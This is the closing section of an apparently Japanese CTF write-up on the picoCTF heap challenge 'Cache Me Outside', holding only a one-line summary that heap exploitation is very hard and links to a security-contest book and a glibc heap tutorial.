参考情報：[picoCTF "Cache Me Outside" writeup](https://cashitsuki.com/posts/2021-12-24-picoCTF-Cache-Me-Outside-writeup/)

## まとめ

Heapめっちゃ難しい。。

## 参考情報

- [詳解セキュリティコンテスト](https://amzn.to/3AEtVa7)

- [Bins and Chunks - heap-exploitation](https://heap-exploitation.dhavalkapil.com/diving_into_glibc_heap/bins_chunks)
